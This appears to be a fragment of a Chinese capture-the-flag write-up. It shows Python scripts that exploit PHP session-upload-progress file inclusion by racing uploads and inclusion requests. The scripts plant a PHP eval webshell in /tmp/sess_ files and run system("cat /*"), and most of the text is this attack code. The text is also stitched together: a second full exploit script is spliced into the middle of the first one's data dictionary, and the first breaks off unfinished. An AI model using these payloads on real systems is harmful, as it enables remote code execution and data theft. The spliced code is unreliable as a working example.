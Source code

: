 ```python
```

2.当然这个也可以利用session文件包含

```python
import requests
import threading
import sys
session=requests.session()
sess='z3eyond'
url1="http://6c9ff9d7-497d-4912-942c-0ab8c8d54175.challenge.ctf.show/"
url2='http://6c9ff9d7-497d-4912-942c-0ab8c8d54175.challenge.ctf.show/?file=/tmp/sess_z3eyond'
data1={
    'PHP_SESSION_UPLOAD_PROGRESS':'<?php eval($_POST[1]);?>'
}import threading
import requests
from concurrent.futures import ThreadPoolExecutor, wait

target = 'http://192.168.1.162:8080/index.php'
session = requests.session()
flag = 'helloworld'


def upload(e: threading.Event):
    files = [
        ('file', ('load.png', b'a' * 40960, 'image/png')),
    ]
    data = {'PHP_SESSION_UPLOAD_PROGRESS': rf'''<?php file_put_contents('/tmp/success', '<?=phpinfo()?>'); echo('{flag}'); ?>'''}

    while not e.is_set():
        requests.post(
            target,
            data=data,
            files=files,
            cookies={'PHPSESSID': flag},
        )


def write(e: threading.Event):
    while not e.is_set():
        response = requests.get(
            f'{target}?file=/tmp/sess_{flag}',
        )

        if flag.encode() in response.content:
            e.set()


if __name__ == '__main__':
    futures = []
    event = threading.Event()
    pool = ThreadPoolExecutor(15)
    for i in range(10):
        futures.append(pool.submit(upload, event))

    for i in range(5):
        futures.append(pool.submit(write, event))

    wait(futures)
data2={
    '1':'echo 11123;system("cat /*");',
}
file={
```